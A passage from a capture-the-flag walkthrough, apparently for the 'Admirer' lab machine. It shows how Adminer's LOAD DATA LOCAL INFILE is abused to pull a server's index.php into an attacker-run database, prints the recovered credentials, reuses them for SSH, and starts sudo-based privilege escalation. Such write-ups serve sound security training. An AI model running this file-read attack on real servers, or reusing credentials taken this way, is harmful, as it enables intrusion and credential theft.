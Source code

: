 This will create a new user for our evil database, create a MySQL database called "evil", and create a table in that database called "theLines" that stores text.
The point of this database and table is that we will use the vulnerability in Adminer to read files into our database.

#### Adminer Exploitation
Log into your database in the Adminer portal (make sure the hostname is your VPN IP) and go to the SQL Command page on the left.
Once you do, entering the following command will load the `/var/www/html/index.php` file into the `theLines` table:

```
load data local infile "/var/www/html/index.php"
into table evil.theLines
fields terminated by "/n";
```

You can then use Adminer or the MySQL CLI to retrieve the contents of the file. Why did we choose that file? Because it contains updated credentials to the MySQL DB on the machine:

```
$servername = "localhost";
$username = "waldo";
$password = "&<h5b~yK3F#{PaPB&dA}{H>";
$dbname = "admirerdb";
```

Not only are these the updated credentials to the database, they are also the username and password for an SSH user "waldo"

### SSH Access
As mentioned previously, the credentials in the `/var/www/html/index.php` for the MySQL database are also the credentials for the user "waldo". SSHing into the target with these credentials will get you the user flag located in `/home/waldo/user.txt`

## Privilege Escalation
Now that we have SSH access to the machine, we can finally focus on trying to get the root flag.
One of the things you should always check is what privileges your user can gain through sudo. You can do this via `sudo -l`.

Running `sudo -l` while logged in as `waldo` gives the following output:

```
Matching Defaults entries for waldo on admirer:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, listpw=always

User waldo may run the following commands on admirer:
    (ALL) SETENV: /opt/scripts/admin_tasks.sh
```

What should catch your eye is the mention of `/opt/scripts/admin_tasks.sh`, the script we saw mentioned earlier in the `admin_tasks.php` file.
The output of `sudo -l` is stating that `waldo` is allowed to run the admin\_tasks.sh script as root.
This is a pretty good indication that we might be able to abuse this in some interesting way.
